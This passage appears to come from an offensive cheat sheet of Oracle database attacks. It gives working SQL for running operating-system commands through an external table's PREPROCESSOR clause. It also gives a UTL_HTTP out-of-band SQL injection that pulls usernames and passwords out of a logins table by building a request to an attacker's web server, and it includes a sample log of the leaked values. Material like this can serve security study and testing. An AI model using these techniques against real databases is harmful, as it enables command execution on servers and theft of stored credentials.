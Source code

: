 ```
hello_oracle.txt
PL/SQL procedure successfully completed.
```

## Execute OS Commands via Create Table (Windows)
### Requirements
CREATE TABLE
### Read-Privilege on directory object
* Oracle 11.1.0.7 / 10.2.0.5 or higher
* For security reasons the preprocessor option does not allow the usage of <code> |, < , >, &, and $</code> characters due to security reasons.

Code:
```
SQL> create or replace directory exec_dir as 'C:\WINDOWS\system32';
SQL> create or replace directory load_dir as 'C:\TOOLS';
SQL> create or replace directory log_dir  as 'C:\TOOLS';
SQL> CREATE TABLE ADDRESS( "NAME" VARCHAR2(60))
ORGANIZATION EXTERNAL(
  TYPE oracle_loader  DEFAULT DIRECTORY load_dir
  ACCESS PARAMETERS  (
     RECORDS DELIMITED BY NEWLINE
     PREPROCESSOR exec_dir:'gunzip' OPTIONS ' -d'
     BADFILE log_dir: 'address.bad'
     LOGFILE load_dir: 'address.log'
     FIELDS TERMINATED BY '|'
     MISSING FIELD VALUES ARE NULL  (
        "NAME"     )  )
  LOCATION ('address.txt.gz'))
REJECT LIMIT UNLIMITED;
SQL> select count(*) from ADDRESS;
```
## UTL_HTTP Attack
UTL_HTTP allows for web pages to be downloaded through SQL queries.

Possible to exploit as an OOB channel by dynamically building the URL.

Retrieved data can be found in web server log files.

Example of ‘late’ exploitation:
```
SELECT topic FROM news ORDER BY 
(SELECT username FROM all_users WHERE username='SYS' ORDER BY 
(select utl_http.request('http://127.0.0.1/INJ/'||(
select uname '_' || upass from tbl_logins where rownum <2)||'')
from dual)
```
Logfile sample:
<pre>
"GET /INJ/SYSTEM HTTP/1.0" 200
"GET /INJ/DBSNMP HTTP/1.0" 200
"GET /INJ/SCOTT HTTP/1.0" 200
"GET /INJ/SYS HTTP/1.0" 200
</pre>
## Limitations
* Restricted to OracleRDMS
* Hardening guides suggest disabling
* Requires outgoing connection to attackers web server
